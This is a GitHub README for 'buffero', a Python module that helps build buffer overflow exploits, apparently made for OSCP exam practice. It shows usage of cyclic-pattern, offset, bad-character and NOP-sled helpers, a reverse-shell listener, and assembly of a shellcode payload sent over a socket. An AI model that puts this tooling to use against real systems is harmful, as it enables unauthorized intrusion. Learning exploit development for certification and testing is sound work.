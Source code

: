 # buffero

Buffer Overflow Exploit Developement Pyton module

I have created this module while I'm preparing for OSCP. This module helps the Buffer Overflow exploit developement in python language.

Currently working modules:
 - encode()			// Encode the string for socket 
 - decode()			// Decode the string
 - generate_bctest()		// Generate Bad Character Array
 - generate_pattern()		// Generate Cyclic Pattern line msf-pattern_create
 - get_pattern_offset()		// Get the offset of the specifies pattern element
 - generate_nop_sled()		// generate NOP sled
 - spawn_rev_shell()		// Spawn a reverse shell with nc 
 - connect_bind_shell()		// Connect to bind shell
 - pack()			// packs the address, depends on the given parameters

# How to use buffero module

This summary will describe how to use buffero

### Generate Cyclic Pattern

The **generate_pattern** function will generate an unique pattern, same as **msf-pattern_create**
```python
import buffero

# Generate 1200 length of Cyclic pattern
# Equivalent with msf-pattern_create -l 1200
pattern = buffero.generate_pattern(1200)
# pattern = Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...
```

---

### Get the offset of the EIP value

The **get_pattern_offset** method will help to find the right offset value
```python
import buffero
    
EIP = '386F4337'	# The value of the EIP register
offset = buffero.get_pattern_offset(1200,EIP)
# offset = 2003
```
---

### Generate Bad Characters

```python
import buffero
    
badchararr = [0x00]	# Specify \x00 as a bad character
    
# Generate a bad character array without the \x00 character
bc = buffero.generate_bctest(badchars=badchararr)
```
Additionally, the **generate_bctest** function will write a result into a file which name is **bctest.bin**. This file is easily examine by xxd command.
```bash
root@kali:~# xxd bctest.bin
00000000: 0102 0304 0506 0708 090a 0b0c 0d0e 0f10  ................
00000010: 1112 1314 1516 1718 191a 1b1c 1d1e 1f20  ................
00000020: 2122 2324 2526 2728 292a 2b2c 2d2e 2f30  !"#$%&'()*+,-./0
00000030: 3132 3334 3536 3738 393a 3b3c 3d3e 3f40  123456789:;<=>?@
00000040: 4142 4344 4546 4748 494a 4b4c 4d4e 4f50  ABCDEFGHIJKLMNOP
00000050: 5152 5354 5556 5758 595a 5b5c 5d5e 5f60  QRSTUVWXYZ[\]^_`
00000060: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
00000070: 7172 7374 7576 7778 797a 7b7c 7d7e 7f80  qrstuvwxyz{|}~..
00000080: 8182 8384 8586 8788 898a 8b8c 8d8e 8f90  ................
00000090: 9192 9394 9596 9798 999a 9b9c 9d9e 9fa0  ................
000000a0: a1a2 a3a4 a5a6 a7a8 a9aa abac adae afb0  ................
000000b0: b1b2 b3b4 b5b6 b7b8 b9ba bbbc bdbe bfc0  ................
000000c0: c1c2 c3c4 c5c6 c7c8 c9ca cbcc cdce cfd0  ................
000000d0: d1d2 d3d4 d5d6 d7d8 d9da dbdc ddde dfe0  ................
000000e0: e1e2 e3e4 e5e6 e7e8 e9ea ebec edee eff0  ................
000000f0: f1f2 f3f4 f5f6 f7f8 f9fa fbfc fdfe ff    ...............
```

---

### Generating NOP Sled


```python
import buffero

nops = buffero.generate_nop_sled(16)
# nops = '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'

```

---

### Packing the JMP Address

```python
import buffero

# same as struct.pack('<I',0x625011af)
# but in this case the result will be an str
addr = buffero.pack('<I',0x625011af)

```
---

### Spawning a Reverse Shell

```python
import buffero

# Listening on 0.0.0.0:9001
buffero.spawn_rev_shell(9001)
```

---

### Encoding and Decoding

In python3 socket.send() will work only byte type array. The encode method will encode the given string into 'Latin-1' encoded byte array.
The decode method will do the same but reverse order. Generate a string with 'Latin-1' encoding from byte array. This is useful when shellcode concatenated with the other pieces of the payload.

```python
import buffero

shellcode  = ""
shellcode += b"\xbb\x6a\xf5\xdd\x01\xd9\xe8\xd9\x74\x24\xf4"
...
shellcode += b"\x41\xa1\x25\xeb\xda\x44\x49\x58\xda\x4c"

# Decoding to string the given bytes type shellcode.
payload += offset + eip + padding + buffero.decode(shellcode) + suffix

# Encoding to bytes type array the concatenated payload
s.send(buffero.encode(payload))

